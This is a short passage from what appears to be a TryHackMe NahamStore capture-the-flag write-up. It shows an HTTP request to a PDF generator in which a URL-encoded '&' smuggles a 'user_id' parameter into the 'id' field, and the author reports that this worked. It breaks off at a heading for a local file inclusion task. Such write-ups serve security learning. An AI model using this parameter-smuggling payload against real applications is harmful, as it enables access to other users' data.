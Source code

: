 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a32.png)

Still didn't work...

**How about we URL encode the `&`? This will let the `3&user_id=3` becomes the value of `id`.**
```
POST /pdf-generator HTTP/1.1
[...]

what=order&id=3%26user_id=3
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a33.png)

It worked!

# Task 6 - LFI
